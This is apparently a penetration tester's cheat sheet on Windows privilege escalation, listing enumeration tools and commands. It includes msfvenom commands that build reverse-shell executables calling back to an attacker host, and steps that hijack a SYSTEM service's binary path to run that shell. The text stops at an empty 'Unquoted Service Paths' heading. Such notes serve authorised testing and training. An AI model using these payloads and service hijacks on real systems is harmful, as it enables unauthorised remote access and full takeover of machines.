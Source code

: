 \pagenumbering{gobble}

# Windows Privilege Escalation

![](../images/win_priv.jpeg)

### Running Powershell
TO run powershell from cmd, and be able to run scripts, type powershell -exec bypass

### Enum Scripts
- [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)
- [PowerUp.ps1](https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1)
- [SharpUp](https://github.com/GhostPack/SharpUp)
- [SeatBelt](https://github.com/GhostPack/Seatbelt)
-  accesschk.exe (use old cli version cause you need to accept a eula on the gui version so its impossible on terminal)

### Script Usage
For winPEAS, enable colors by typing the following, then open a new command prompt:\
C:\USER>reg add HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1

PowerUp.ps1:\
Dot source the script with . .\PowerUp.ps1\
Then run with Invoke-AllChecks\

SharpUp.exe:\
.\SharpUp.exe

You can run seatbelt with the all option to run all checks:\
.\SeatBelt.exe all

### MSFVENOM Rev Shell
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.11 LPORT=53 -f exe -o reverse.exe`

`msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe`

You can then transfer the file with something from lolbas or with smb or something else: [windows file transfers](https://0xdf.gitlab.io/2018/10/11/pwk-notes-post-exploitation-windows-file-transfers.html)
### Manual Commands
View users:\
`C:\Users\student> net user`

System Information:\
`C:\Users\student> systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type`

Processes:\
`C:\Users\student> tasklist /SVC`

Port Bindings:\
`C:\Users\student>ipconfig /all`

View Routing Tables:
`C:\Users\student> route print`

View Active Network Connections:\
`C:\Users\student> netstat -ano`

View Firewall Info:\
`C:\Users\student> netsh advfirewall show currentprofile`

Firewall Rules:\
`C:\Users\student> netsh advfirewall firewall show rule name=all`

View Scheduled Tasks:\
`schtasks /query /fo LIST /v`

View info of apps installed by windows installer:\
`c:\Users\student> wmic product get name, version, vendor`

Software update info:\
`wmic qfe get Caption, Description, HotFixID, InstalledOn`

World Writable Files:\
`Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}`

List unmounted disks:\
`mountvol`

View Drivers:\
`driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object ‘Display Name’, ‘Start Mode’, Path`

View Drivers by version"\
`PS C:\Users\student> Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer`

Check  AlwaysInstallElevated Registrty, If this setting is enabled, we could craft an MSI file and run it to elevate our privileges:\
`reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer`
`reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer`

### Kernel Exploits
Use systeminfo to get kenrel info, then find exploits with usual methods (google, exploitdb, etc)  

- [Windows Exploit Suggester (wes-ng)](https://github.com/bitsadmin/wesng)
- [Watson Kernel Exploit Suggester](https://github.com/rasta-mouse/Watson)
- [Precompiled Kernel Exploits](https://github.com/SecWiki/windows-kernel-exploits)

### Service Exploits
```
Query the configuration of a service:
> sc.exe qc <name>
Query the current status of a service:
> sc.exe query <name>
Modify a configuration option of a service:
> sc.exe config <name> <option>= <value>
Start/Stop a service:
> net start/stop <name>
```

#### Insecure Service Permissions
If we can change the config of a service running as SYSTEM, we can change the executable the service runs to one of our own. (RABBIT HOLE: if you can change the configurateion but cant stop or start the service, it may not be a valid route to privesc).  
To find service info with winpeas, we can run `.\winPEASx86.exe quiet servicesinfo`  
You can also view this with `.\accesschk.exe /accepteula -uwcqv <user> <service name>`  
You can view the service info with `sc qc <service name>` and the service state with `sc qc <service name>`  
If we have access, we can set the binary path of the service to our reverse shell: `sc config <service name> binpath= "\"C:\<pathname>\reverseshellname.exe""`  
Then we can start the service with `net start <service name>`

#### Unquoted Service Paths



